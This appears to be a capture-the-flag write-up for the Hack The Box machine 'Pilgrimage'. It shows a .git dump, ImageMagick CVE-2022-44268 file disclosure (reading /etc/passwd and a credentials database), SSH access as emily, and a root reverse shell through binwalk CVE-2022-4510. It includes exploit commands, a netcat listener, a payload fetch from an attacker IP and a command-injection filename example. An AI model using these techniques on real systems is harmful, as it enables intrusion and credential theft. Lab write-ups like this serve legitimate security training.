

# Summary
[Pilgrimage](https://app.hackthebox.com/machines/Pilgrimage) 

## Nmap
First things first I start off with an `nmap` scan. `-sC` for default enumeration scripts, `-sV` to enumerate version, and `-v` for verbose mode to list ports as they're found. For ports I use command substitution to run a scan of all ports. This way I can scan all ports but only run enumeration scripts on the open ones.
```
┌──(kali㉿Kali)──[11:53:48]──[~/htb/Machines/Pilgrimage]
└─$ sudo nmap -sC -sV -v -p $(sudo nmap -p- $IP | grep open | awk -F'/' '{print $1}' | tr '\n' ',') $IP

<...SNIP...>

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 20:be:60:d2:95:f6:28:c1:b7:e9:e8:17:06:f1:68:f3 (RSA)
|   256 0e:b6:a6:a8:c9:9b:41:73:74:6e:70:18:0d:5f:e0:af (ECDSA)
|_  256 d1:4e:29:3c:70:86:69:b4:d7:2c:c8:0b:48:6e:98:04 (ED25519)
80/tcp open  http    nginx 1.18.0
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: nginx/1.18.0
|_http-title: Did not follow redirect to http://pilgrimage.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
### HTTP on Port 80
Nmap displays the message `Did not follow redirect to http://pilgrimage.htb/`, so I add `pilgrimage` to my `/etc/hosts` file and rerun the nmap scan on port 80, as certain enumeration scripts will not work properly otherwise.

And sure enough, a `/.git` directory was found!
```
PORT   STATE SERVICE VERSION
80/tcp open  http    nginx 1.18.0
| http-git: 
|   10.129.58.22:80/.git/
|     Git repository found!
|     Repository description: Unnamed repository; edit this file 'description' to name the...
|_    Last commit message: Pilgrimage image shrinking service initial commit. # <...SNIP...>
```
I use [git-dumper](https://github.com/arthaud/git-dumper/tree/master) to grab the `.git` directory.
```bash
pip install git-dumper
git-dumper http://pilgrimage.htb gitdump
```
This is great! It looks like it grabs me the whole source code of the site.

Before digging any deeper into the `.git` directory, I visit the actual site to see what I'm working with. I also get a `feroxbuster` running. I want to see if there's any files or directories that weren't included in the `.git` directory. I use `-A` to use a random user agent, `-n` to prevent recursion,  `-x php` to also search for `.php` files.
```
┌──(kali㉿Kali)──[12:08:36]──[~/htb/Machines/Pilgrimage]
└─$ feroxbuster -u http://pilgrimage.htb -A -n -x php -C 404

 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.10.1
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://pilgrimage.htb
 🚀  Threads               │ 50
 📖  Wordlist              │ /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
 💢  Status Code Filters   │ [404]
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ Random
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🔎  Extract Links         │ true
 💲  Extensions            │ [php]
 🏁  HTTP methods          │ [GET]
 🚫  Do Not Recurse        │ true
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
301      GET        7l       11w      169c http://pilgrimage.htb/tmp => http://pilgrimage.htb/tmp/
302      GET        0l        0w        0c http://pilgrimage.htb/dashboard.php => http://pilgrimage.htb/login.php
200      GET        5l       27w     1031c http://pilgrimage.htb/assets/js/popup.js
200      GET      178l      395w     5292c http://pilgrimage.htb/assets/js/custom.js
200      GET      171l      403w     6166c http://pilgrimage.htb/login.php
302      GET        0l        0w        0c http://pilgrimage.htb/logout.php => http://pilgrimage.htb/
200      GET       94l      234w     3576c http://pilgrimage.htb/assets/css/custom.css
200      GET      171l      403w     6173c http://pilgrimage.htb/register.php
200      GET      186l      505w     4928c http://pilgrimage.htb/assets/css/owl.css
301      GET        7l       11w      169c http://pilgrimage.htb/assets => http://pilgrimage.htb/assets/
200      GET     2349l     5229w    50334c http://pilgrimage.htb/assets/css/templatemo-woox-travel.css
200      GET        2l     1283w    86927c http://pilgrimage.htb/vendor/jquery/jquery.min.js
200      GET       11l      552w    57997c http://pilgrimage.htb/assets/css/animate.css
200      GET        7l      942w    60110c http://pilgrimage.htb/vendor/bootstrap/js/bootstrap.min.js
200      GET     6805l    11709w   123176c http://pilgrimage.htb/assets/css/fontawesome.css
200      GET        7l     2223w   194705c http://pilgrimage.htb/vendor/bootstrap/css/bootstrap.min.css
200      GET       15l     1928w   119998c http://pilgrimage.htb/assets/js/isotope.min.js
200      GET    16582l    60225w   485937c http://pilgrimage.htb/assets/js/tabs.js
200      GET      198l      494w     7621c http://pilgrimage.htb/
200      GET      198l      494w     7621c http://pilgrimage.htb/index.php
301      GET        7l       11w      169c http://pilgrimage.htb/vendor => http://pilgrimage.htb/vendor/
[####################] - 2m     30026/30026   0s      found:21      errors:0      
[####################] - 2m     30000/30000   278/s   http://pilgrimage.htb/
```
`Feroxbuster` doesn't return anything I don't already know about.

I check out the site as well. It looks fairly simple. It's just a service to shrink image files. I create an account. 


### Enumerating .git Directory > ImageMagick CVE
I poke around the `git` folder for awhile. I run `git log` to see if there's any older commits with maybe hard coded credentials or something, but nope. I eventually check out the `magick` file. `Magick` is the executable for [ImageMagick](https://imagemagick.org/). ImageMagick is an open-source tool for editing and manipulating image files. It's commonly used on websites and apps, as it can be used quite comprehensively from the command line. I run `./magick -version` to get the version in use: `7.1.0-49`.


Search for "*imagemagick 7.1.0 exploit*", I find [CVE-2022-44268.](https://nvd.nist.gov/vuln/detail/CVE-2022-44268) This version of ImageMagick has a file disclosure vulnerability. There is a lovely [blogpost](https://www.metabaseq.com/imagemagick-zero-days/) that explains in depth how this vulnerability works. I would highly recommend reading it if you want a better understanding of this vulnerability. 

When ImageMagick parses a PNG file, like in a resize action (which is what the site is doing) the image can be embedded with a file. Basically how it works is that an attacker can take a `png` image and add a textual chunk type (tEXt). A tEXt chunk is a piece of a png file used for including metadata. Here's a list of [PNGTags.](https://exiftool.org/TagNames/PNG.html) These tEXt chunks have a keyword and a text string. If the keyword is the string "profile" then ImageMagick will treat the text string as a filename and will attempt to load the contents of that file into a [raw profile type](https://exiftool.org/TagNames/PNG.html#TextualData). 

There is a [Github POC](https://github.com/voidz0r/CVE-2022-44268) here from voidz0rthat makes this nice and easy.

I first test this PoC by trying to include the `/etc/passwd` file from my machine. I use the vulnerable `magick` binary from the pilgrimage `.git` folder. This works! And I get my `/etc/passwd` output in hex format in the metadata of the output.png file. I can also see this with `exiftool`.
```bash
┌──(kali㉿Kali)──[12:21:31]──[~/htb/Machines/Pilgrimage/magick-poc]
└─$ cargo run "/etc/passwd"                                   
    Finished dev [unoptimized + debuginfo] target(s) in 0.01s
     Running `target/debug/cve-2022-44268 /etc/passwd`
                                                                                                                              
┌──(kali㉿Kali)──[12:21:35]──[~/htb/Machines/Pilgrimage/magick-poc]
└─$ ../gitdump/magick convert image.png -resize 50% output.png
convert: keyword "Raw profile type ": bad character '0x20' `output.png @ warning/png.c/MagickPNGWarningHandler/1750.
                                                                                                                              
┌──(kali㉿Kali)──[12:21:41]──[~/htb/Machines/Pilgrimage/magick-poc]
└─$ ../gitdump/magick identify -verbose output.png            
<...SNIP...>
    Raw profile type: 

    4975
726f6f743a783a303a303a726f6f743a2f726f6f743a2f7573722f62696e2f7a73680a64
61656d6f6e3a783a313a313a6461656d6f6e3a2f7573722f7362696e3a2f7573722f7362
696e2f6e6f6c6f67696e0a62696e3a783a323a323a62696e3a2f62696e3a2f7573722f73
62696e2f6e6f6c6f67696e0a7379733a783a333a333a7379733a2f6465763a2f7573722f
<...SNIP...>
```
Now I take my malicious "image.png" and upload it to the site. I download the resized image and look at it with `magick` and there's the hex encoded file. I copy the output from the `magick identify` command and write it to a file. I then use `tr` to remove all the line breaks, and then copy the new file into my clipboard.
```bash
# Paste in hex output
vim my.passwd

# Remove linebreaks
cat my.passwd | tr -d '\n' > tmp

# Replace original file
mv tmp my.passwd

# Copy to clipboard
cat my.passwd | xclip -sel clip
```
I then boot up python and decode it. I get a very ugly version of `/etc/passwd`. I can give it ChatGPT to fix the formatting.


Now that I have file read, I need to figure out what to do with it. I end up reading back through the source code and notice that there's an `SQLite` database located at `/var/db/pilgrimage`. 


Let's go for that. I encode that location into my `.png` and send it off.
```bash
┌──(kali㉿Kali)──[12:41:20]──[~/htb/Machines/Pilgrimage/magick-poc]
└─$ cargo run "/var/db/pilgrimage"         
    Finished dev [unoptimized + debuginfo] target(s) in 0.01s
     Running `target/debug/cve-2022-44268 /var/db/pilgrimage`
```
I get back a big chunk of hex that's mostly zeros. This looks good. I put it in a file and remove the linbreaks with `tr -d '\n'`. I decode in python just like before and get a big ugly blob of mostly `\x00`. Considering the database is mostly empty, I'm hoping I can just find something in clear text and not need to refrormat this to get it into a useable format for `sqlite`. And indeed I do! Up near the top I see the line `emily--------------`. These look like credentials for the user `emily`. 


From reading `/etc/passwd` I know that emily Is a user on the box. Perhaps there's password reuse. I try to login to SSH with these creds, and it works!


### Binwalk Exploit > Shell as Root
Once I get on the box I poke around a bit. I end up running [Pspy](https://github.com/DominicBreuker/pspy) which is a wonderful tool to monitor Linux processes without root permissions. I often run this on boxes to see what types of funny business is going on in the background. Here I see something unsual running as root. It's a bash script called `malwarescan.sh`. Turns out I can read this script.


```bash
#!/bin/bash

blacklist=("Executable script" "Microsoft executable")

/usr/bin/inotifywait -m -e create /var/www/pilgrimage.htb/shrunk/ | while read FILE; do
	filename="/var/www/pilgrimage.htb/shrunk/$(/usr/bin/echo "$FILE" | /usr/bin/tail -n 1 | /usr/bin/sed -n -e 's/^.*CREATE //p')"
	binout="$(/usr/local/bin/binwalk -e "$filename")"
        for banned in "${blacklist[@]}"; do
		if [[ "$binout" == *"$banned"* ]]; then
			/usr/bin/rm "$filename"
			break
		fi
	done
done
```

This script is using [inotifywait](https://linux.die.net/man/1/inotifywait) to watch for files being created in `/var/www/pilgrimage.htb/shrunk`. The `-e create` specifies the event type, in this case, file creation, and the `-m` means to run in the background indefinately. 

The output of this command is piped to a `while` loop that reads each line of output as `FILE`

The `filename` variable is then created by taking the last line of `FILE` and removing the string `CREATE` and adding that to the path `/var/www/pilgrimage.htb/shrunk`. So for example if a file was created called `new_file` the `filename` variable would be `/var/www/pilgrimge.htb/shrunk/new_file`.

The `binout` variable is the output of running `binwalk` on the new file. [Binwalk](https://www.kali.org/tools/binwalk/) is a tool for searching a given binary image for embedded files and executable code.

`Binout` is then used in a `for` loop that detects if anything from the `blacklist` is detected in `binwalk's` output. The `blacklist` variable is specified at the top of the script. If anything from the `blacklist` is detected, the new file is removed.

Basically, the script watches for new files created, scans them with `binwalk`, and if anything malicious is detected, the file is deleted.

### Spinning My Wheels
Now, when I first saw this, I thought I was going for command injection. Since the `$filename` variable is created by file names that I can create, I thought I could create a file called for example, `; ping -c 1 10.10.14.72` and when it got passed to `binwalk` it would look like `binwalk -e ; ping -c 1 10.10.14.72`, terminating the `binwalk` command, and running a `ping` command. However, I somehow overlooked that `$filename` in the `binwalk` section has double quotes around it! Silly me. This means when `$filename` undergoes variable expansion, special characters are treated as literal characters, rather than having their special meaning. Embarrassingly, I spun my wheels on this longer than I'd like to admit.

After I realized what was going on, I took another look at the script. 
### Back To It
I still want to look here for priv esc. I decide to search for vulnerabilities in some of the tools being run like `inotifywait` and `binwalk`. Searching for *"binwalk exploit"*, the top result is [an article form Portswigger](https://portswigger.net/daily-swig/serious-security-hole-plugged-in-infosec-tool-binwalk) talking about a recent `binwalk` exploit tracked as [CVE-2022-4510](https://nvd.nist.gov/vuln/detail/CVE-2022-4510). This the original [security advisory](https://onekey.com/blog/security-advisory-remote-command-execution-in-binwalk/) from OneKey.

There's a Path Traversal to RCE vuln in `binwalk` version 2.1.2b-2.3.3. I check the version present on this system by running `binwalk -h`, and it's 2.3.2. We could be in business here.


I highly recommend reading the Portswigger and OneKey article to better understand this vulnerability.

Basically the vuln exists in the PFS filesystem extractor in binwalk combined with binwalk's plugin system. In 2017, a PFS extractor plugin was merged into binwalk. A path traversal mitigation attempt was made using `os.path.join` however, it didn't work. By creating a valid PFS filesystem with filenames containing `../` in the name, binwalk will write files outisde of the extracton directory.

This vulnerability is then used to create a new `binwalk` plugin that will be picked up and executed while it's still scanning the malicious file.

I used [this Github POC](https://github.com/electr0sm0g/CVE-2022-4510) to create a malicious `png` file. This POC will create a binwalk plugin that will send me a reverse shell. 


I host the `binwalk_exploit.png` on my python server and setup my netcat listener. Then from my ssh session as emily I `wget` the `.png` into the `shrunk` directory. And boom! Just like that, the `malwarescan.sh` script executes, the malicious binwalk plugin is created, and I get a reverse shell as root on my netcat listener.
```bash
# Start python server with binwalk_exploit.png
cp ../binwalk_rce/binwalk_exploit.png .
python3 -m http.server 80

# Start netcat listener
nc -lvnp 9001

# From ssh session
cd /var/www/pilgrimage.htb/shrunk
wget 10.10.15.34/binwalk_exploit.png
```

